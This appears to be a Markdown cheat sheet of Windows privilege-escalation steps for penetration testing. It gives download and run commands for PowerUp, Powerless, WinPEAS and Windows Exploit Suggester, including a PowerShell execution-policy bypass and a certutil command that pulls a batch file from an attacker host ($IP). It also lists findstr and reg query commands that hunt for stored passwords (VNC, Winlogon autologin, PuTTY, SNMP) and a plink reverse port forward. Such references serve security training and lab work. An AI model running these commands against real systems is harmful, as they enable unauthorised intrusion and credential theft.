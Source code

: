 
- PowerUP
  - Powershell required
  - Download `wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1`
  - Run on Windows `powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"`
  
- Powerless
  - For legacy systems
  - Powershell not available
  - Download `wget https://raw.githubusercontent.com/gladiatx0r/Powerless/blob/master/Powerless.bat`
  - Drop `certutil.exe -urlcache -split -f "http://$IP/Powerless.bat" Powerless.bat`
  - Run on Windows `Powerless.bat`
  
 - WinPEAS
   - Release https://github.com/carlospolop/PEASS-ng/releases/tag/20220807
    
 - Windows Exploit Suggester
   - https://github.com/AonCyberLabs/Windows-Exploit-Suggester
   - Download `wget https://github.com/AonCyberLabs/Windows-Exploit-Suggester/blob/master/windows-exploit-suggester.py`
   - Run `systeminfo` on the target Windows machine and save the output in a txt file.
   - `python3 windows-exploit-suggester.py --update`
   - `python3 windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo systeminfo.txt`
   - Grep 'Elevation' `./windows-exploit-suggester.py –database 2015-09-22-mssb.xlsx –systeminfo systeminfo_1.txt | grep 'Elevation'`

- Search for passwords 

  - In Files

    ```
      findstr /si password *.txt
      findstr /si password *.xml
      findstr /si password *.ini

      #Find all those strings in config files.
      dir /s *pass* == *cred* == *vnc* == *.config*

      # Find all passwords in all files.
      findstr /spin "password" *.*
      findstr /spin "password" *.*
    ```
    
  - In Registry
  
    ```
    # VNC
    reg query "HKCU\Software\ORL\WinVNC3\Password"

    # Windows autologin
    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

    # SNMP Paramters
    reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

    # Putty
    reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

    # Search for password in registry
    reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s

    ```
    
- Enumerate Local Services
  - `netstat -ano`
  - Look for LISTENING/LISTEN. Compare that to the scan you did from the outside. Does it contain any ports that are not accessible from the outside? If that is the case, maybe you can make a remote forward to access it.
    ```
      # Port forward using plink
      plink.exe -l root -pw mysecretpassword 192.168.0.101 -R 8080:127.0.0.1:8080
    ```
